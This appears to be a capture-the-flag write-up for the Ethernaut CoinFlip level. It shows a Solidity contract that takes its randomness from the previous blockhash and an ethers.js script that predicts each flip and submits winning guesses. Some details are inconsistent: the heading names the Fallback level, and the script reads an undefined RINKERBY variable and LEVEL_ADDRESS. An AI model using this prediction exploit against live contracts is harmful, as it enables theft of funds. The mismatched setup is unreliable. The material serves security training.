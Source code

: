 ## Fallback Level Outline

**Difficulty : 3/10**

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution
Because the flip is calculated onchain using the previous blockhash, we can predict what the outcome will be by simulating the coinflip offchain and then submitting the right predition.

This level does not use foundry as it will be solved using a simple [ethersjs](https://docs.ethers.io/v5/) script. 

>Feel free to contribute if you have a solution using only foundry (most likely using forge to make a contract to calculate the flip + call level instance)

### Walkthrough

1. set up a node project
```console
npm init
```

2. install the dotenv and ethersjs package 
```console
npm install ethers
npm install dotenv
```

3. create a `.env` file with the following variables
- `PRIVATE_KEY`
- `NODE_URL`
 
```console
touch .env
ECHO PRIVATE_KEY=<your-private-key-here> >> .env
ECHO NODE_URL=<your-node-url-here> >> .env
```
4. create a `src/coinFlip.js` file to hold our script

```javascript
const ethers = require('ethers');
require('dotenv').config();

const NODE_URL = process.env.RINKERBY;
const PRIVATE_KEY = process.env.PRIVATE_KEY;
const LEVEL_ADDRESS = process.env.LEVEL_ADDRESS;

const provider = new ethers.providers.JsonRpcProvider(NODE_URL);
const wallet = new ethers.Wallet(PRIVATE_KEY);
const signer = wallet.connect(provider);

const FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

const coinFlipContract = new ethers.Contract(
  LEVEL_ADDRESS,
  ["function flip(bool _guess) public returns (bool)"],
  signer
)

let correctFlips = 0;

provider.on('block', async (blockNum) => {
  console.log("blockNum : ", blockNum);
  let blockData = await provider.getBlock(blockNum);
  let blockHash = blockData.hash;
  let blockValue = parseInt(blockHash, 16);
  let coinFlip = Math.floor(blockValue / FACTOR);
  let side = coinFlip == 1 ? true : false;

  const tx = await coinFlipContract.flip(side);
  const promise = tx.wait();
  const receipt = await promise;

  correctFlips++;
  console.log(correctFlips);
})
```

5. run the script that we just created
```console
node src/coinFlip.js
```
